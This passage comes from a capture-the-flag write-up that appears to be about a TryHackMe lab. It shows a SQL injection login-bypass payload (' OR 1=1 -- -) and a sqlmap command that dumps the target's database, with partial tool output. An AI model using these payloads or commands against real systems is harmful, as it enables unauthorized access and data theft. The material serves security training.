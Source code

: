 - If there is no sanitization we could abuse the query like the following:
    
    ```sql
  SELECT * FROM site_users WHERE username='' OR 1=1 -- -' AND password='{sent_password}'
    ```
    
- `'OR 1=1 -- -` as the username, Notice two things:
    1. the rest of the query becomes a comment (after `-- -`) notice the gray color
    2. the query condition is always True because `1=1` is true, so True or anything is True  
- so the query becomes 
    ```sql
  SELECT * FROM site_users WHERE username='' OR 1=1
    ```
![Untitled](/assets/images/thm/biblioteca/sqli.png)

## Dumping the database with `sqlmap`

- Great, it's vulnerable, let’s dump the database with `sqlmap`

```bash
sqlmap -u http://$ip:8000/login --data "username='user'&password='pass'" --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:12:45 /2022-09-22/

[13:12:45] [INFO] testing connection to the target URL
[13:12:45] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:12:45] [INFO] testing if the target URL content is stable
[13:12:46] [INFO] target URL content is stable
[13:12:46] [INFO] testing if POST parameter 'username' is dynamic
[13:12:46] [WARNING] POST parameter 'username' does not appear to be dynamic
```